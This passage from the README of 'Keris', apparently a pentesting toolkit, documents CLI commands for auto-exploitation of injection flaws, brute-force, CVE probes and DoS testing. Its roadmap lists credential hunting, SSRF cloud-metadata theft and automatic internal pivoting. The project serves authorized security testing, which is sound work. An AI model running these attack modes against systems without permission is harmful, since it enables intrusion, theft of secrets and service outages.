finding, concrete fix steps grouped by severity, so the report isn't just a
list of problems but an action plan for the dev team.

### Risk-score trend chart

Keris keeps a per-target history of risk scores under `~/.keris/`. HTML
reports show a **progress trend chart** so retests/watch cycles visualize
remediation progress over time.

### Messaging notifier (Slack/Telegram/Discord)

Scan and `watch` send HIGH/CRITICAL findings to a webhook, now including the
overall risk grade:

```bash
keris scan https://example.com --webhook https://hooks.slack.com/services/... --webhook-type slack
keris watch example.com --webhook https://api.telegram.org/bot<TOKEN>/sendMessage?chat_id=<ID>
```

## Active attacks

These modules **send payloads**. They require `--authorized` (or `--yes` for
DoS) and are only for targets you own or have written permission to test.

```bash
# Auto-exploit SQLi/CMDI/SSTI/XSS (confirms + exploits)
keris scan https://example.com --authorized --exploit

# Extended brute + username enumeration
keris bruteforce https://app.example.com --authorized --extended

# CVE/PoC probes based on detected platform
keris scan https://example.com --authorized --exploit-cve
```

## Authentication

Bearer token, session cookie, basic auth, or full HTML form auto-login (the
session is captured and reused across **every** subcommand: `scan`, `recon`,
`discover`, `hunt`, `fuzz`, and more):

```bash
keris scan https://app.example.com --token eyJhbGciOi...
keris scan https://app.example.com --cookie "session=abc123"
keris scan https://app.example.com --login-username admin --login-password hunter2
keris recon https://app.example.com --login-username admin --login-password hunter2
keris example.com --proxy http://127.0.0.1:8080
```

## Reports

Every finding gets a **CVSS v3.1 score** (vector + base) and an **OWASP Top 10
(2021)** category. The Markdown report reads like a manual pentest report:
executive summary, severity table, target profile, security headers, findings
with evidence, then recommendations.

```bash
keris scan https://example.com -o report.md \
    --html report.html --pdf report.pdf --json-output out.json
```

Also available:

- **Attack Paths**: when `--chain` finds correlation, the HTML and Markdown
  reports include a visual attack-path section showing the step-by-step chain
  (each finding rendered as a node, ending at the final impact).
- **Retest**: `keris retest jan.json feb.json -o retest.md` groups findings
  into fixed / new / persisting and prints a remediation progress percentage.
  Non-zero exit when anything remains, usable as a "has the fix landed?" CI
  gate.
- **Live retest (auto re-verify)**: `keris retest jan.json --live
  --authorized` re-scans the target from the old JSON, re-verifies each finding,
  and proves which ones are fixed vs still persisting:
  ```bash
  keris retest jan.json --live --authorized -o retest.md --json-output diff.json
  ```
- **Parallel multi-target**: scan a batch of targets at once:
  ```bash
  keris scan --targets targets.txt --parallel -o all.md --json-output all.json
  ```
  Each target also gets its own per-target report (`report-<host>.md`).
- **Export**: findings to curl scripts or Burp XML sessions.
- **Dashboard**: merge multiple `--json-output` files into one HTML.
- **Webhook**: Slack / Discord / Telegram notifications.
- **Exit codes**: `0` clean, `1` a finding at/above `--exit-on` (default
  `high`), `2` error.

## Built-in good behaviour

- **Polite by default**: `fast` / `stealth` / `aggressive` presets, delay,
  workers, and adaptive backoff on 429/403. Scans don't blindly speed up and
  get your IP banned.
- **Rate-limit aware**: never retries HTTP 5xx on purpose, so error-based SQLi
  isn't masked.
- **Configuration via `keris.json`**: `keris init` writes an example; CLI flags
  always win over the file.

## Installation

```bash
pip install keris-toolkit         # everything you need, bundled
keris --help

# From source (for development):
git clone https://github.com/dexpie/keris.git
cd keris
pip install -e ".[dev]"           # + test dependencies
```

Dependencies: PyYAML, PySocks, reportlab, dnspython, cryptography, certifi,
requests, websocket-client. Optional: `playwright` (browser pass) and an LLM
key (AI triage).

Docker also works:

```bash
docker build -t keris .
docker run --rm -v "$PWD:/work" keris scan https://example.com -o /work/report.md
```

## Working with Keris

```bash
keris scan https://example.com --exit-on high     # CI gate
keris scan --targets targets.txt --json-output all.json  # many targets
keris scan https://example.com --no-discover --no-bruteforce --no-plugins
keris scan https://example.com --chain --triage --browser   # go big

# Development
python -m pytest tests -q
ruff check keris tests
```

### Auto-scan on every PR

A ready-made workflow lives in `.github/workflows/scan-pr.yml`. Put a
`https://url` in the PR body (or comment `/scan <url>`), and the workflow
installs `keris-toolkit`, runs the scan, posts a summary comment to the PR, and
uploads the full report as an artifact.

## Structure

```
keris/
├── keris/
│   ├── __main__.py        # CLI (57 subcommands)
│   ├── payloads.py        # SQLi/XSS/SSRF/CMDI/SSTI payloads + wordlists
│   ├── cvss.py            # CVSS v3.1 scoring + OWASP mapping
│   ├── report*.py         # Markdown / HTML / PDF / dashboard
│   ├── ui.py              # local web UI (stdlib http.server, zero deps)
│   ├── agent.py           # AI pentesting agent (plan/execute/resume)
│   ├── farm/              # distributed scan cluster (master/worker/client)
│   ├── core/              # http client (auth, proxy, backoff), config, logger, utils
│   └── modules/           # scanners + correlation, triage, browser, ticketing, watch, tui, pivot-auto
├── keris_enterprise/      # enterprise suite: REST API, RBAC, scheduler, alerts, web UI
├── plugins/               # example plugins (Python + JSON)
├── tests/                 # pytest suite + intentionally-vulnerable demo server
├── Dockerfile
└── docker-compose.yml
```

## Roadmap

- [x] Full scan pipeline + reports
- [x] Passive recon, form auto-login, fuzzing, speed presets
- [x] JWT, port scan, OpenAPI, brute-force, platform checks
- [x] Project self-audit (for AI agents)
- [x] Wayback, DNS/email security, cloud buckets, TLS
- [x] WAF, hidden parameters, curl/Burp export, webhooks, dashboard
- [x] DoS resilience test (authorized only)
- [x] Hidden endpoints, crawler, GraphQL
- [x] Subdomain takeover & request smuggling
- [x] Auto-exploit + CVE probes (authorized only)
- [x] Cache poisoning, host header, WebSocket, JS analysis
- [x] Sensitive data scan, retest workflow
- [x] CVSS + OWASP in every report format
- [x] Web UI with one-click scan and DoS testing
- [x] **Attack-chain correlation engine (`--chain`)**
- [x] **AI triage + executive summary (`--triage`)**
- [x] **Headless browser pass with screenshots (`--browser`)**
- [x] **Auto-ticketing to GitHub/Jira (`--ticket`)**
- [x] **Continuous monitoring (`watch`)**
- [x] **Interactive terminal UI (`tui`)**
- [x] **Credential hunting (`hunt`): .git dump, .env/backup, cloud secrets**
- [x] **Multi-vector DoS (`dos --hammer`)**
- [x] **One-flag everything (`scan --pwn`)**
- [x] **Live credential validation (`credcheck`)**
- [x] **OOB SSRF detection (`--ssrf`)**
- [x] **SSRF exploitation: cloud metadata theft + internal port scan**
- [x] **WAF detection & fingerprinting (`waf`)**
- [x] **Attack path generator with criticality scoring (`--chain --path-depth`, `--dot-output`)**
- [x] **Automatic internal pivoting after SSRF/RCE (`--pivot-auto`)**
- [x] **AI pentesting agent (`agent`)**
- [x] **Distributed scanning cluster (`farm`)**
- [x] **Enterprise suite (`enterprise`): RBAC, scheduler, alerts, integrations, web UI**

## Legal note

Use only on systems you own or that have given you written permission. Active
attack modules (exploit, CVE, brute-force extended, DoS) require explicit
confirmation. All responsibility lies with the user.

## Screenshots

Overpowered kit modules (v0.10.0), all running with `--authorized`:

<p align="center">
  
  
</p>

<p align="center">
  
  
</p>

<p align="center">
  
  
</p>

<p align="center">
  
  
</p>

---

[MIT](LICENSE), use it, learn from it, improve it. Contributions welcome; see
[CONTRIBUTING.md](CONTRIBUTING.md). Found a security hole in Keris itself?
Report it via [SECURITY.md](SECURITY.md).

Keris is built for pentesters, bug bounty hunters, DevOps, and AI coding agents
who want consistent results without juggling thirty separate tools. Feedback
and feature requests are always welcome.